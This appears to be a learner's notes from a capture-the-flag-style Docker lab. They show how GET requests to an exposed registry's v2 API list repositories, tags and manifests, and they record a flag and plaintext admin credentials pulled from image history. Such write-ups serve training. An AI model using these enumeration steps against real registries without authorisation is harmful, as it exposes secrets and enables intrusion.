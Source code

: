 
### Discover Docker Repositories 

- need a GET request
- ` http://docker-rodeo.thm:5000/v2/_catalog` to list all repos registered 

Postman returns
```JSON
{
 "repositories":[
    "cmnatic/myapp1",
    "dive/challenge",
    "dive/example"
    ]
}
```

- focus on `cmnatic/myapp1`
- need repo name (`cmnatic/myapp1`) and tags published

send a GET request
- ` http://docker-rodeo.thm:5000/v2/repository/name/tags/list ` to get all tags
- ` http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/tags/list `
- 
Postman returns
```JSON
{
  "name": "cmnatic/myapp1",
  "tags": ["notsecure", "latest", "secured"]
}
```

GET DATA
- we have name `cmnatic/myapp1` and tag `notsecure` 
- GET the manifest file
- ` http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/notsecure `
- we get the history, there was a command `echo \\\"here's a flag\\\" \\u003e /root/root.txt"]`
- 
---
- 7000

What is the name of the repository within this registry?
-  `http://docker-rodeo.thm:7000/v2/_catalog` 
- `securesolutions/webserver`
-  ` http://docker-rodeo.thm:7000/v2/securesolutions/webserver/tags/list `
- `production`

What is the Username in the database configuration?
- `http://docker-rodeo.thm:7000/v2/securesolutions/webserver/manifests/production 
- look for `"Username: admin"\\\\nPassword: production_admin `
---


## Reverse Engineering Docker Images
